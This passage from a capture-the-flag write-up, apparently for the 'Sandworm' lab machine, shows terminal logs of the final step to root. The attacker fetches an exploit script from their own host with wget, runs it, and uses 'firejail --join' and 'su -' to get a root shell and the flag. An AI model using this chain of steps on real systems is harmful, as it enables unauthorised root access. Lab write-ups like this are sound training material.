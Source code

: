 ```bash
$ ssh -i test atlas@10.10.11.218

atlas@sandworm:~$ wget http://10.10.16.34:8443/exp.py
--2023-10-25 16:30:24--  http://10.10.16.34:8443/exp.py
Connecting to 10.10.16.34:8443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 7953 (7.8K) [text/x-python]
Saving to: ‘exp.py’

exp.py                                    100%[=====================================================================================>]   7.77K  --.-KB/s    in 0s

2023-10-25 16:30:24 (395 MB/s) - ‘exp.py’ saved [7953/7953]

atlas@sandworm:~$ chmod +x exp.py
atlas@sandworm:~$ python3 exp.py
You can now run 'firejail --join=7283' in another terminal to obtain a shell where 'sudo su -' should grant you a root shell.
client_loop: send disconnect: Broken pipe
```

It is saying to join a session number in another terminal and then saying to Execute ```su -``` command. So we again open a shell as **atlas** user using ssh and id_rsa. And type the following command.

```bash
$ ssh -i test atlas@10.10.11.218

atlas@sandworm:~$ firejail --join=7283
changing root to /proc/7283/root
Warning: cleaning all supplementary groups
Child process initialized in 9.30 ms
atlas@sandworm:~$ su -
root@sandworm:~# id
uid=0(root) gid=0(root) groups=0(root)
root@sandworm:~# ll
total 52
drwx------  7 root root 4096 Jun  7 15:19 ./
drwxr-xr-x 19 root root 4096 Jun  7 13:53 ../
lrwxrwxrwx  1 root root    9 Jan 20  2021 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Dec  5  2019 .bashrc
drwx------  3 root root 4096 Jun  7 09:57 .config/
drwx------  2 root root 4096 May  4 16:07 .gnupg/
drwxr-xr-x  3 root root 4096 May  7  2020 .local/
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
drwx------  2 root root 4096 Jun  6 10:13 .ssh/
drwxr-xr-x  4 root root 4096 May  5 08:59 Cleanup/
-rw-r--r--  1 root root 1326 May  4 18:03 domain.crt
-rw-r--r--  1 root root 1094 May  4 18:02 domain.csr
-rw-------  1 root root 1704 May  4 18:01 domain.key
-rw-r-----  1 root root   33 Oct 25 15:12 root.txt
root@sandworm:~# cat root.txt
1e47fb6e9d0dba91fa9f18ab0831a614
```

And we get root shell and the root flag.